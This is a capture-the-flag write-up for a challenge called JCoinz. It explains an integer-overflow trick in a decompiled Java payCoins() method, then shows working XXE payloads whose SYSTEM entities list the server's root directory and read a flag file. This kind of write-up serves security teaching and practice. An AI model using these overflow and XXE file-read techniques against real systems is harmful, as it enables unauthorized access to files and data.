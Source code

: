 Day 13: JCoinz
--------------
We get a service running on a port and a jar file that seems to be the code of the service. When decompiling the jar file we see that we need more coinz. Initially we have only 1336 but we need 1337 to send the XML message to administrator which is probably the function we want to exploit. The code of the function payCoins() shows that we could use the signed int representation to trick the system:
```java
  public boolean payCoins(int amount)
  {
    if (getCoins() <= 0)
    {
      IO.printStatus("-", "No more jcoinz!\n\n");
      return false;
    }
    if (amount < 0) {
      amount *= -1;
    }
    int decreasedCoins = getCoins() - amount - Shop.transactionTax;
    if (decreasedCoins < 0)
    {
      IO.printStatus("-", "You cannot generate debts!\n\n");
      return false;
    }
    setCoins(decreasedCoins);
    
    IO.printStatus("-", "Decreased the account of \"" + getName() + "\" by " + String.valueOf(amount) + "\n");
    
    return true;
  }
```

To do this we need to have more than 0 coins, otherwise we are rejected by the first if clause. So we start by sending 1333 coins to charity (such that only 1 coin is left). Then, thanks to binary representation of signed integer the following happens when sending -2147483648 (0x80000000) coins to charity:

1. amount <0 => amount *= -1
2. amount is still the same thanks to signed int representation
3. decreasedCoins = 1 - amount - 2 = (1 - 0x80000000) - 2  = (0x80000001) - 2 = 0x7fffffff = 2147483647
4. since decreasedCoins is >0 we get that amount on our account.

Now we can start to play with the send XML function. We see that our messages are somehow processed and displayed back. And then when XML is processed we can start some tests with XXE and we see immediately that it works, see the excerpt below:
```
[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <!DOCTYPE doc [<!ENTITY e "FOO">]><doc><a>&e;</a></doc>
[+] Your secret xml message: <doc><a>FOO</a></doc>
```

Then we use the SYSTEM keyword to see if we can access the current directory:
```
[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <!DOCTYPE doc [<!ENTITY e SYSTEM "./">]><doc><a>&e;</a></doc>
[+] Your secret xml message: <doc><a>.dockerenv
bin
dev
etc
home
lib
lib64
linuxrc
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</a></doc>
```

We can then browse the file system (slowly) lookingfor something interesting and in the end we locate a file in the /home/jcoinz directory that contains the flag:
```
[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <!DOCTYPE doc [<!ENTITY e SYSTEM "/home/jcoinz/9f40461baba9bf00ba9174beeeb9b8a80c0ffba6">]><doc><a>&e;</a></doc>
[+] Your secret xml message: <doc><a>
You did it!

Greets, MuffinX

HV16-y4h0-g00t-d33m-c01n-zzzz

If you liked this challenge, tweet me: https://twitter.com/muffiniks
</a></doc>
```

And the flag is:

> HV16-y4h0-g00t-d33m-c01n-zzzz
